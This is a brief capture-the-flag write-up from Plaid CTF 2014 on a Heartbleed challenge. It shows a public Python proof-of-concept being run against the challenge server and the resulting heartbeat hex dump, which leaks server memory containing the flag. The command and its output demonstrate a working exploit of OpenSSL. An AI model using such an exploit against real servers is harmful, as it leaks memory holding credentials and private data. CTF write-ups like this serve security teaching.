 # Heartbleed writeup
    Plaid CTF, 2014
    Writeup by pipecork

How topical! The [Heartbleed bug](http://heartbleed.com) was only just disclosed the Monday previous, and this weekend there's a challenge on it. There's been plenty of PoC scripts floating around this week, I used [a popular python exploit](ssltest.py) that's been making the rounds.

I like this particular one because it's been updated to allow for specifying TLS version. Good thing too, because using TLS version 1 and 3 doesn't look vulnerable. But version 2...

```bash
$ ./ssltest.py -p 45373 -v 2 54.82.147.138
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 837
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
    0000: 02 40 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73  .@.flag{hey_guis
    0010: 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72  e_we_made_a_hear
    0020: 74 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79  tbleed}.flag{hey
    0030: 5F 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61  _guise_we_made_a
    0040: 5F 68 65 61 72 74 62 6C 65 65 64 7D 00 66 6C 61  _heartbleed}.fla
    0050: 67 7B 68 65 79 5F 67 75 69 73 65 5F 77 65 5F 6D  g{hey_guise_we_m
    0060: 61 64 65 5F 61 5F 68 65 61 72 74 62 6C 65 65 64  ade_a_heartbleed
    0070: 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65  }.flag{hey_guise
    0080: 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74  _we_made_a_heart
    0090: 62 6C 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F  bleed}.flag{hey_
    00a0: 67 75 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F  guise_we_made_a_

    . . .

    3fc0: 66 6C 61 67 7B 68 65 79 5F 67 75 69 73 65 5F 77  flag{hey_guise_w
    3fd0: 65 5F 6D 61 64 65 5F 61 5F 68 65 61 72 74 62 6C  e_made_a_heartbl
    3fe0: 65 65 64 7D 00 66 6C 61 67 7B 68 65 79 5F 67 75  eed}.flag{hey_gu
    3ff0: 69 73 65 5F 77 65 5F 6D 61 64 65 5F 61 5F 68 65  ise_we_made_a_he

WARNING: server returned more data than it should; server is vulnerable!
```

Well, that was easy. The flag is `flag{hey_guise_we_made_a_heartbleed}`.

